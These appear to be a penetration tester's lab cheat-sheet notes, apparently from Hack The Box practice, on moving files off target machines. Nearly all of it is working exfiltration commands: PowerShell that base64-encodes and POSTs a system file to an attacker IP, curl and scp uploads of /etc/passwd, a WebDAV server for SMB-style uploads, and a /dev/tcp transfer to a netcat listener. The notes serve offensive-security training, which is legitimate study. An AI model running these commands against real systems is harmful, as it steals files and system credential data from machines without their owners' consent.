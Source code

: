 
### Powershell commands

start listener
```
python3 -m uploadserver 8000
```

1. base64 upload `
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
catch payload
```shell
nc -lvnp 8000

echo <base64-string> | base64 -d -w 0 > hosts
```

 2.  invoke-fileupload.ps1 script
```
 https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1

Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\<loc>
```

##  SMB Uploads

```shell-session
sudo pip3 install wsgidav cheroot
```

```shell-session
 sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
verify connection
```cmd-session
C:\htb> dir \\192.168.49.128\DavWWWRoot
```

You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder

# scp upload
```
scp victim@192.168.1.10:/etc/passwd ~/
```
## linux curl

generate cert and start server
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
 python3 -m uploadserver 443 --server-certificate ~/server.pem    
```

`Upload Multiple Files`
```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@<path2> --insecure
```

PHP
```shell-session
$ php -S 0.0.0.0:8000
```
ruby:
```shell-session
ruby -run -ehttpd . -p8000
```


`File Upload using SCP`
```shell-session
$ scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/

```

## dev/tcp 
`verify file integrity`
```
victim@NIX02:~$ md5sum shell
4a0a25b6802153957c31dc5a70877913
```
`victim`
```
victim@NIX02:~$ cat shell-v > /dev/tcp/10.10.16.44/4444
```

`attacker`
```
┌──(demise㉿kali)-[~]
└─$ sudo nc -nlvp 4444 > shell

┌──(demise㉿kali)-[~]
└─$ md5sum shell
4a0a25b6802153957c31dc5a70877913  
```


